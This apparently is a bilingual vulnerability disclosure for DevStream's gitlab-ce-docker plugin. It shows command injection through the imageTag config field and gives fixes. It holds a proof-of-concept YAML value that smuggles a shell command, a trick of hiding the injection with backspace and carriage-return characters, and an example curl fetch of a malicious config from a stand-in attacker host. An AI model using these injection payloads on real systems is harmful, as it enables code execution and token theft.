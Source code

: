 ## POC/proof of code

```yaml
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"

```

利用方法为 gitlab ce image 没用启动对应 Container 的时候，执行 `dtm apply -f this.yaml -y` 之后弹出计算器

Exploiting this by executing `dtm apply -f this.yaml -y` and open calc process when gitlab ce image has no container running.

imageTag 无过滤内容，可用退格和 rewind （ascii 同理）以及 # 注释符号搭配使用，对用户进行欺骗

ImageTag filters nothing. Using backspace `\b` or rewind `\r` (ascii also works)with comment `#` cheats privileged user to execute.

## 攻击向量与场景/Attack vector and scenario

**首先配置文件本身并没有被项目做权限检查存在可以被其他平级乃至是低权限用户修改的可能。因此提供了一种从文本写入到命令执行的攻击向量。**

**Above all, the config file premission is loose and no check.It's possible for user who has same or lower privilege to modify config.There provides an attack vector from file writing to command execution.**

其次，项目多处使用了 `docker` `kubectl` 。这类需要 root 或者 docker 组的权限的用户进行执行。**因此往往 dtm 是被高权限使用的。**

Then, Project uses `docker` `kubectl` which needs root or docker group to exec in many packages. **So, `dtm` is always using with high-privileged user.**


为了使得利用场景更加直观，考虑如下命令序列

There is a command-sequence for a more perceptual understanding of scenario mentioned above.

```
ubuntu(localhost) > curl https://evil-attacker.com/evil.yaml -O quickStart.yaml
ubuntu(localhost) > sudo dtm init -f quickStart.yaml
ubuntu(localhost) > sudo dtm apply -f quickStart.yaml
```

由于项目的目的是构造整体的生产环境工具链，也同样聚集了多数最佳实践的配置，同时又支持环境变量或者其他文件读取配置，**所以用户可能并不会对工具配置文件本身亲力亲为。**

Because of the aim of project is completion of production environment toolchains and contains more config with best efforts. Project also allows environment vars or other files to "know" local config. **So user may not put more attention on config files of  tools.**

也存在一种场景，假设**用户配置文件可以通过远程分发和维护**的时候，例如 nacos 统一配置全公司的技术栈和工具链，通过这种配置文件的污染，（能够进行污染的时候，部署的服务和CICD服务可能均已遭到不测），甚至可以导致员工的办公区电脑被入侵。

Another attack scenario is remote delivery and maintenance of users' config file, such as using Nacos unify toolchains and techniques in whole company. Polluting this config file will make computers of developer in office network in danger. (But The Deployment servers and CICD Services is got hacked at that time)

当然命令这里不只是 Open 计算器，由于ImageTag中没有多数的过滤，所以我们几乎可以做任何操作，包括但不限于下载木马文件进行执行，并且由于教程中含有通过环境变量的值的方法传入各种 Token 所以也存在使用 curl 或者其他方法向黑客的恶意 Webhook 服务器发送带有生产或是测试环境的相关的配置与口令从而造成更大的危害。

Not only Calc process opening there, Because of loose filter in ImageTag , We can do everything not only downloading trojan but also stealing tokens and other config in prod or testing via command like `curl` callback to hackers webhook server.

因此，该 ISSUE 具有一定的对使用者的欺骗性质，并且在权限提升和横向渗透中具有利用空间。

Consequently, the issue has potentiality of being exploited in order to achieve privilege escalation and lateral movement through the ignorance of user,
providing a primitive with capability of converting file-written to code execution.

## 缓解与修复/Mitigation and Fix

可以使用 go client for docker engine 实现。

It is believed that using docker client instead of concat command string is a more safe and elegant implementation.

如果非要使用 `exec.Command` 可以将第一位二进制参数设置为 `docker` 替换  `sh -c` 便会大大降低被注入额外命令的风险

Even if considering keeping `exec.Command`, u should using `docker` to deprecate `sh -c` and put parameters to `args` as well
so that the risk of causing an command injection will be considerably decreased.

## 协作者/cooperator

1. [Esonhugh](https://github.com/Esonhugh)
2. [Akaany](https://github.com/Akaany)